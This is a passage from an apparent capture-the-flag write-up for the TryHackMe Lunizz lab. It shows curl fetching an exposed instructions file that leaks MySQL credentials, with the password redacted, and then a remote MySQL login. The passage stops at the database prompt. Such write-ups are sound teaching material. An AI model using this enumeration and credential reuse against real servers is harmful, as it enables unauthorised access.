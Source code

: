 **In the `/whatever/index.php`, looks like we can execute commands:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Lunizz-CTF/images/a2.png)

But we currently can't do that.

**`/instructions.txt`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# curl http://$RHOSTS/instructions.txt
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user (runcheck:{Redacted})
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE
```

**Found MySQL credentials!**

## MySQL on Port 3306

**Since we have MySQL credentials, we can remotely login to MySQL on the target machine.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Lunizz-CTF]
└─# mysql -uruncheck -p{Redacted} -h $RHOSTS
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)
[...]

MySQL [(none)]> 
```
